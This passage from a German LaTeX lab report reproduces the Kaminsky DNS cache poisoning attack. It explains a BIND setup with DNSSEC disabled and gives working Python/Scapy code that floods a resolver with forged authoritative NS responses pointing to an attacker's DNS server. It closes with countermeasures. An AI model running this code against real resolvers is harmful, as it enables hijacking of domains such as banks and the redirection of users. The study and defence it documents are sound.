Die erste Zeile gibt den DNS-Server an, dass alle Anfragen nach außen über Port 54 laufen und über die IP \emph{<ip\_eth1>} versendet werden. Die IP musste zusätzlich angegeben werden, da unser DNS-Server zwei Interfaces (eth0 und eth1) verwendet. Das erste Interface (eth0) dient dazu, dass Vagrant unsere virtuelle Machinen verwalten kann. Bei Vagrant handelt es sich um eine Anwendung zum Erstellen und Verwalten von virtuellen Maschinen. Es ermöglicht ein einfaches Deployment und eine Reproduzierbare und leicht zu übertragende (Beispielsweise Git) Umgebung. Eine Vagrant-Datei mit den Konfigurationen muss nur gestartet werden, und alle virtuellen Maschinen werden den Konfigurationen entsprechend auf dem Computer installiert und konfiguriert. Daurch ist gewährleistet, dass alle Mitglieder in der Gruppe die gleichen und aktuellsten virtuellen Maschinen besitzen. Beim zweiten Interface (eth1) handelt es sich um eine Netzwerkbrücke über die alle DNS-Anfragen angenommen und versendet werden.

Beim zweiten Eintrag handelt es sich um die DNS Security Extensions (DNSSEC). Diese Extensions werden verwendet um die Integrität von DNS-Antworten zu gewährleisten. DNSSEC signiert alle DNS-Records (A,MX etc.) einer Zone mit Hilfe von Public Key Infrastructure (PKI). Damit der Angriff funktionieren kann, wurde diese Option deaktiviert. Dadurch ist sichergestellt, dass keine weiteren Überprüfungen von Signaturen etc. vorgenommen werden.

Der nachfolgende \emph{allow-recursion} Eintrag sorgt dafür, dass der DNS Server nicht nur anfragen für Zonen beantwortet für die er selbst autoritativ ist, sondern auch rekursiv über andere Nameservern Adressen auflöst. Der parameter \emph{any} sorgt dafür, dass der Server anfragen von jeder beliebigen IP annimmt. Die allow-query Anweisung legt fest, von welchen Clients der Server anfragen annimmt.

Mit der \emph{auth-nxdomain no} anweisung wird festgelegt, dass der Nameserver NXDOMAIN Records (also Antworten für nicht existente Domains) nicht als autoritativ kennzeichnen soll. Anderenfalls würde der Server alle NX records als autoritativ  markieren, auch wenn er eigentlich nicht die Autorität über die betreffende Domain inne hat.

Der letzte Eintrag über welches Interface und welchen Port die die DNS-Anfragen empfangen werden. Hier wurde der DNS-Server so konfiguriert, dass er alle Anfragen über Port 53 annimmt. Außerdem werden alle Anfragen über die IP \emph{<ip\_eth1>} und den Localhost angenommen.

\section{Der Angriff}
In folgendem Abschnitt wird die praktische Umsetzung des Angriffs genauer dargelegt. Im ersten Unterpunkt wird auf die konkrete Implementierung in Python mithilfe von Scapy eingegangen. Dabei wird dargelegt, was die einzelnen Optionen bedeuten und wie sie zu interpretieren sind. Als nächstes folgt eine Beschreibung unserer Vorgehensweise und welche Versuche und Versuchsreihen durchgeführt wurden. Zum Schluss werden Gegenmaßnahmen aufgezählt, die einen solchen Angriff verhindern sollen.

\subsection{Das Python Programm}
\begin{center}
\begin{lstlisting}
# Vulnerable recursive DNS server settings
victim_dns_ip = os.environ['VLN_SERVER_IP']
victim_dns_port_in = int(os.environ['VLN_DNS_PORT_IN'])
victim_dns_port_out = int(os.environ['VLN_DNS_PORT_OUT'])

# Target domain base to be messed with
victim_host_base = ".bank.com."

# Malicious DNS server
attacker_dns_ip = os.environ['ATK_SERVER_IP']
\end{lstlisting}
\end{center}
Es werden einige Parameter geladen. Die Variablen welche mit dem Präfix \emph{victim\_dns\_} beginnen, legen den zu vergiftenden Nameserver fest. In \emph{victim\_host\_base} steht die URL, welche später vom Victim-DNS in den Cache übernommen werden soll. Zuletzt kommt \emph{attacker\_dns\_ip} welche die IP des vom Attacker kontrollierten DNS-Servers (Attacker-DNS) beinhaltet.

Es git eine Funktion mit dem namen \emph{a\_request}, welche die initialen DNS-Anfragen an den Victim-DNS generiert und verwaltet. Dadurch wird der Victim-DNS dazu aufgefordert, nach dem entsprechenden A-Record beim zuständigen NS-Server nachzufragen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(
        sport=53, dport=victim_dns_port_out) / DNS(
        id=id,
        qr=1,
        opcode=0,
        aa=1,
        tc=0,
        ra=0,
        z=0,
        rcode=0,
        qdcount=1,
        ancount=0,
        nscount=1,
        arcount=1,
        ad=0,
        cd=0,
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        an=0,
        ns=DNSRR(rrname=target_domain, type='NS', rdata=known_ns_domain, ttl=MAX_TTL),
        ar=DNSRR(rrname=known_ns_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}
Mit der Funktion \emph{forged\_ns\_response} werden generische Antwortpakete generiert.
Die Funktion erhält mehrere Parameter, insbesondere die Transaktions-ID welche die Nachricht erhalten soll. Mit ihrer Hilfe werden zunächst alle möglichen Antworten generiert, die dann gebündelt zum Server gesandt werden können.

Der Parameter \emph{id} beinhaltet die Transaktionsnummer, der Wert Eins für \emph{qr} legt fest, dass es sich um eine DNS Antwort und nicht eine Anfrage handelt. Der \emph{opcode} legt fest, dass es sich um einen Standard Query handelt. Mit \emph{aa} wird die Antwort als authoritative markiert. Da die Antwort unter 512 Byte lang ist wird das Flag \emph{tc} auf 0 gesetzt. Das Flag \emph{ra} legt mit dem Wert Null fest, dass der Server keine Rekursiven anfragen erlaubt. \emph{z} ist ein reserviertes Flag, dass immer auf Null stehen muss. Mit \emph{rcode} wird die Antwort als OK markiert, es ist also kein Fehler aufgetreten. \emph{qdcount}, \emph{ancount}, \emph{nscount} und \emph{arcount} enthalten respektive die Anzahl von enthaltenen Frage, Antwort, Nameserver und Zusätlichen Einträgen in der Antwort.
Die Flags \emph{ad} und \emph{cd} sind für DNSSEC verantwortlich, was wir weder verwenden, noch unterstützen, weshalb sie auf null gesetzt sind. Zum Schluss kommen die eigentlichen Frage, Antwort, Nameserver und Zusätlichen Einträgen in den Parametern qd, an, ns und ar.

\begin{center}
\begin{lstlisting}
class Poison(Thread):
    def __init__(self, response_amount, known_ns_domain, known_ns_ip, offset):
        self.response_amount = response_amount
        self.known_ns_domain = known_ns_domain
        self.known_ns_ip = known_ns_ip
        self.running = True
        self.offset = offset
        super(Poison, self).__init__()

    def run(self):
        counter = 0
        id = random.randrange(2 ** 16)

        while self.running:
            target_domain = "www{}{}{}".format(counter, self.offset, victim_host_base)
            counter += 1

            packet_list = [Ether() / a_request(target_domain)]

            for i in range(self.response_amount):
                packet_list.append(
                    forged_ns_response(
                        (id + i) % (2 ** 16),
                        target_domain,
                        self.known_ns_domain,
                        self.known_ns_ip
                    )
                )
            id = (id + self.response_amount) % (2 ** 16)

            print("Sending packets from {} with id in interval [{:#x}, {:#x}] to {}"
                  .format(self.known_ns_ip, id, id + self.response_amount, victim_dns_ip))
            print("Chance of success: 1-(1-{:d}/65536)**{:d} = {:.2f}".format(self.response_amount,
             counter, 1 - pow((1 - self.response_amount / 65536.), counter)))

            sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

            ns_response = sr1(a_request(self.known_ns_domain), verbose=0)

            if ns_response[DNS].an.rdata == attacker_dns_ip:
                print("Successfully poisoned the zone of {}".format(victim_host_base))
                break
            else:
                print("Poisoning failed")
\end{lstlisting}
\end{center}
Die Klasse \emph{Poison} ist zuständig für das Ausführen des Poisoning-Angriffs. Bei jedem Schleifendurchlauf wird eine zufällige Subdomain gewählt, um das Caching zu umgehen. Es werden so viele Pakete generiert, wie in der Variable \emph{response\_amount} angegeben werden. Die erste Transaktionsnummer wird zufällig gewählt und pro jedem weiteren Paket inkrementiert. Dadurch werden Pakete generiert, die ein bestimmtes Intervall aller möglichen Transaktionsnummern abdecken. Anschließend werden alle generierten Pakete in eine Liste eingefügt und letztendlich mit hilfe von der Funktion \emph{sendpfast} an den Victim-DNS gesendet.

Im Anschluss wird eine eine A-Record-Anfrage mit dem bekannten Namen des für die Domain \emph{victim.com} zuständigen NS-Servers beim Victim-DNS gestellt. Das Antwortpaket des Victim-DNS beinhaltet einen A-Record mit der IP-Adresse des NS-Servers, der für die Domain \emph{victim.com} zuständig ist. Diese IP-Adresse muss in einem letzten Schritt mit der IP-Adresse des Attacker-DNS verglichen werden. Sollten die IP-Adressen identisch sein, so war der Poisoning-Angriff erfolgreich und der Victimt-DNS hat den Attacker-DNS als zuständigen NS-Server für die Domain \emph{victim.com} in seinem Cache gespeichert.
\begin{center}
\begin{lstlisting}
if __name__ == '__main__':
    known_ns_domain = "ns01.cashparking.com."
    known_ns_ip = "216.69.185.38"

    known_ns_domain_2 = "ns02.cashparking.com."
    known_ns_ip_2 = "208.109.255.38"

    t1 = Poison(150, known_ns_domain, known_ns_ip, 'a')
    t2 = Poison(150, known_ns_domain_2, known_ns_ip_2, 'b')
    try:
        t1.start()
        t2.start()
    except KeyboardInterrupt:
        t1.running = False
        t2.running = False
\end{lstlisting}
\end{center}
Da die meisten Domains mehr als einen Nameserver besitzen, und die DNS-Antworten vom gleichen NS-Server stammen müssen, die der Victim-DNS angefragt hat, werden zwei Threads gestartet. Jeder dieser Threads generiert Antwortpakete mit verschiedenen Transaktionsnummern, und versucht dem Victim-DNS ein gültiges Antwortpaket zu senden. Beide Threads laufen so lange, bis der Angriff erfolgreich war. 

\subsection{Versuchsreihen und Vorgehensweise}
Es wurden mehrere Versuchsreihen auf dem Weg zum bereits beschriebenen Code unternommen,
die im Folgenden beschrieben werden.

\subsubsection{Setup 1: Victm-DNS fragt direkt beim Attacker-DNS an}
Im ersten Setup wurde der Victm-DNS als forwarding DNS Server konfiguriert, der anfragen direkt an den Attacker-DNS stellt. Ziel des Versuchs war es das richtige Antwort Format zu finden, damit der Victm-DNS die Antwort akzeptiert. Die Pakete wurden mit Wireshark analysiert und mit korrekten Paketen verglichen um Fehler zu finden. Außerdem wurde über einen aufgesetzten Client getestet, ob auch der Browser mit den Antworten umgehen kann, so dass die Webseite auf die der Attacker leitet auch fehlerfrei aufgerufen werden kann.

\subsubsection{Setup 2: Injecten von A-Records beim Victim-DNS}
Beim zweiten Setup wurde der Victm-DNS als forwarding DNS Server konfiguriert, der Anfragen direkt an Googles DNS-Server (und später auch den TLD-Server) stellt. Ziel war es herauszufinden, ob man alle Pakete vor Eintreffen des echten Antwort Pakets senden kann. Zu diesem Zweck wurden die Pakete mit Hilfe von Wireshark auf dem Host und Tshark auf dem Victm-DNS überwacht. Außerdem wurde in diesem Setup versucht, testweise gefälschte A-Records in den Cache des Victim-DNS zu \glqq injecten\grqq.

\subsubsection{Setup 3: Der Angriff von Kaminsky}
In einem dritten Setup, sehr ähnlich dem Zweiten, wurde der eigentliche Angriff von Kaminsky nachgestellt. Dabei wurde versucht einen validen NS-Record beim Victim-DNS zu \glqq injecten\grqq. Mehrere Versuche mit unterschiedlichen BIND-Versionen als auch Server-Betriebssystemen wurden getestet. Erst wurde ein Ubuntu 8 mit BIND 9.3.3 getestet. Da sich das vorhersagen der Transaktionsnummer jedoch deutlich schwieriger gestaltet hat als zuerst angenommen, wurden mehrere versuche unternommen die Transaktionsnummer vorhersehbar zu machen. Ein versuch bestand darin eine alte BIND 8 Version unter (centOS als auch Redhat) zu kompilieren. Wie wir jedoch feststellen konnten, war die Schwachstelle einer inkrementierten Transaktionsnummer nicht mehr in jeder Unterversion von Bind 8 enhalten.

Weitere Versuche gestalteten sich dann nach der Suche einer angreifbaren BIND-Version, welche die Schwachstelle inkrementierender Transaktionsnummer besaß. Des Weiteren haben andere Mitglieder unseres Team versucht den BIND Source Code nach den Transaktionsnummer zu durchsuchen, um diese auf einen fixen Wert zu setzen. Leider blieben die Versuche einer älteren BIND-Version jedoch aufgrund zu alter Abhängigkeiten ohne Erfolg.

Alle Versuche wurden durch eine Analyse von Hand mittels Wireshark durchgeführt. Es wurde pro Versuch ein \emph{tcpdump}-File angelegt und anschließend mit Wireshark darauf untersucht, wieviele Pakete vor der original Antwort von unserem Attacker-Skript an den Victim-DNS gesendet werden konnten. Wir konnten feststellen, dass ca. 600 Pakete zu versenden waren, bevor die legitime Antwort beim DNS-Server ankam.

Neben der Analyse der Reihenfolge wurde Wireshark auch verwendet um alle Flags einer echten DNS-Antwort nach zu stellen, bis sich die Pakete, außer der Transaktionsnummer nicht mehr von den Originalen unterschieden.

\section{Schutz gegen den Angriff}
Das eigentliche Problem des Angriffslies sich nicht beheben ohne die Kompatibilität zum bisherigen DNS Protokoll zu verlieren, daher wurden weitere Zufallsquellen neben der bestehenden ID-Randomization eingerichtet.

\subsection*{Gleichverteilte Transaktionsnummern}
Die Transaktionsnummer ist eine 16 Bit lange Zahl die vom Ziel-Server beim erstellen der Anfrage generiert wurde. Sie muss bei der Antwort gleich lauten wie bei der Anfrage und Existierte bereits vor bekannt werden das Angriffs. Manche Implementierungen waren allerdings leicht angreifbar, da die ID nicht zufällig gewählt wurde, sondern einfach bei jeder Anfrage Inkrementiert wurde. War also die Transaktionsnummer einer vorherigen Anfrage bekannt schränkte dies die möglichen Transaktionsnummern erheblich ein. Dies wurde durch einen Pool von zufällig gewürfelten Transaktionsnummern behoben, von denen für die Anfrage zufällig eine ausgewählt wird. Sollten alle möglichen Transaktionsnummern gleichverteilt gewählt werden, ergibt sich eine Wahrscheinlichkeit von $1/2^{16}$ pro Transaktionsnummer. Das alleine reicht jedoch wie im Angriff von Kaminky gezeigt wurde nicht aus um eine verfälschung zu verhindern. 

\subsection*{Port-Randomization}
Früher wurden DNS anfragen standardmäßig über Port 53 gestellt. Dies machte es einfach gefälschte Antworten zu senden. In neueren Implementierungen wurde daher die sogenannte Source-Port-Randomization eingeführt. Hierbei wird der Ausgangsport für die Anfrage zufällig gewählt. Da es erforderlich ist, über den gleichen Port zu antworten, ergeben sich mindestens $2^{11}$ mögliche Ports. Sollten alle möglichen Ports verwendet werden, können bis zu $2^{16}$ Ports erschlossen werden. In Verbindung mit der Gleichverteilung der Transaktionsnummern ergeben sich dann $2^{16} \cdot 2^{11}$ Möglichkeiten.

\subsection*{Random-URL-Capitalizing}
Um die Möglichen Paare für den Angreifer noch weiter zu erhöhen und somit den Angriff noch Unrealistischer zu gestalten, ist eine weitere Methode das Random-URL-Capitalizing oder auch 0x20-Bit Encoding. Hierbei wird die angefragte Domain zufällig in Klein- und Großbuchstaben geschrieben. Die Groß- und Kleinschreibeung ist bei DNS anfragen äquivalent, nach RFC 1034 sollte die Schreibweise bei der Antwort alledings gleich sein wie bei der Anfrage. Die Größe des Zufalls ist hierbei von der Länge der angefragten Domain abhängig. Sei nun $|\mathit{URL}|$ die anzahl der Buchstaben in einer URL so ergeben sich $2^{|URL|}$ Moglichkeiten der Groß- und Kleinschreibung. Sollten also alle 3 Verteidigungsmechanismen verwendet werden, ergeben sich insgesamt $2^{16} \cdot 2^{11} \cdot 2^{|URL|}$ mögliche Kombinationspaare aus Transaktionsnummer, Port, und Groß- und Kleinschreibung die der Angreifer korrekt raten muss.

\bibliographystyle{abbrv}
\bibliography{database}
\end{document}